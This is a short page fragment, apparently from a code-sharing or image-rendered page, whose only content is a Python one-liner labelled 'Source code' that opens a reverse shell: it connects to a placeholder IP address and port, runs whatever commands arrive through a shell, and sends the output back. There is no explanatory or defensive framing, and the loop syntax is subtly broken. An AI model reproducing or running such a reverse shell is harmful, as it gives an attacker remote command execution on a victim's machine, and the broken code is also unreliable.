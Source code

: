 `python -c "exec(\"import socket, subprocess;s = socket.socket() ; s.connect(('<IPADDR>',<PORT>))\n while 1; proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE); s.send(proc.stdout.read()+proc.stderr.read())\")"`
